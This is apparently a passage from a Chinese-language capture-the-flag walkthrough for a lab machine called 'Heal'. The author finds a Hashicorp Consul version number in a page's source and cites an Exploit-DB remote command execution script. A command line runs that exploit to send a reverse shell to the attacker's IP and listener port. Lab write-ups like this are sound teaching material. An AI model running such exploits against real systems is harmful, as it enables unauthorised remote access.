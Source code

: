 ![](./images/image-91.png)

在网页源码里发现了版本信息：`1.19.2`

![](./images/image-92.png)

通过查找版本漏洞，我在`Exploit-DB`中发现了可以利用的脚本

- [Hashicorp Consul v1.0 - Remote Command Execution (RCE) - Multiple remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/51117)

```
[root@kali] /home/kali/Heal  
❯ python exploit.py 127.0.0.1 8500 10.10.16.29 6666 0

[+] Request sent successfully, check your listener
```

设置`NC`监听得到反弹`SHELL`
